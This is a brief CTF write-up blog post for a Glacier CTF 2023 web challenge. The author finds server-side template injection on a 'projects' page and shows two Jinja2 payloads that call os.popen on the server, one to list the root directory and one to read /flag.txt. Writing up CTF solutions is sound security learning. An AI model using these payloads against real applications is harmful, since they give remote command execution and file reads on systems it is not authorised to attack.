 ```yaml
---
author: pl4int3xt
layout: post
title: Glacier CTF 2023
date: '2023-11-25 10:44:23 +0300'
cover: img/cover_images/46.png
description: "Glacier CTF 2023"
categories: [CTF]
---
```


> I just created my first website! You can even do some calculations! Don't forget to check out my other projects!
author: Chr0x6eOs

We open the website and there is nothing interesting and so we try to check out the other projects 

![img-description](/img/glacier-ctf-2023/1.png)

We are brought to this page and immediately what pops in my brain is SSTI

![img-description](/img/glacier-ctf-2023/2.png)

I try injecting something to see the changes and indeed the website has an SSTI

![img-description](/img/glacier-ctf-2023/3.png)

Next let's check what's in the / directory and we see the file flag.txt using the following payload

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cd / && ls')['read']()}}{% endraw %}
```


![img-description](/img/glacier-ctf-2023/4.png)

Next we create a payload to read the flag.txt file

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /flag.txt')['read']()}}{% endraw %}
```

![img-description](/img/glacier-ctf-2023/5.png)

